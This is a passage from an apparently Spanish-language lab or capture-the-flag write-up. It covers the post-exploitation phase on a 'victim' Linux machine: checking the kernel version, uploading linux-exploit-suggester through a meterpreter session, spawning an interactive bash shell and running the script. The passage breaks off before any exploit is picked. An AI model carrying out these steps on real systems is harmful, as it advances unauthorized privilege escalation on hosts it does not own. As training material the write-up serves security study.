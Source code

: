 Primero veremos que version de kernel tiene la maquina victima de la siguiente forma.

```shell
uname -a
```

Info:

```
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Vemos que el kernel es `3.2.0-23-generic`, por lo que veremos si tiene alguna vulnerabilidad de la siguiente forma.

URL GitHub = https://github.com/The-Z-Labs/linux-exploit-suggester

Clonamos el repositorio a nuestro host.

```shell
git clone https://github.com/The-Z-Labs/linux-exploit-suggester.git
cd linux-exploit-suggester
```

Cambiamos el nombre al script `.sh`.

```shell
mv linux-exploit-suggester.sh les.sh
```

Y ahora nos vamos a nuestro `meterpreter`.

```shell
cd /tmp/
```

```shell
upload /linux-exploit-suggester/les.sh
```

Info:

```
[*] Uploading  : /home/dise0/Desktop/linux-exploit-suggester/les.sh -> les.sh
[*] Uploaded -1.00 B of 88.73 KiB (-0.0%): /home/dise0/Desktop/linux-exploit-suggester/les.sh -> les.sh
[*] Completed  : /home/dise0/Desktop/linux-exploit-suggester/les.sh -> les.sh
```

Una vez que nos hayamos pasado el archivo a la maquina victima, lo ejecutaremos.

```shell
shell
/bin/bash -i
```

```shell
chmod +x les.sh
```

```shell
./les.sh
```
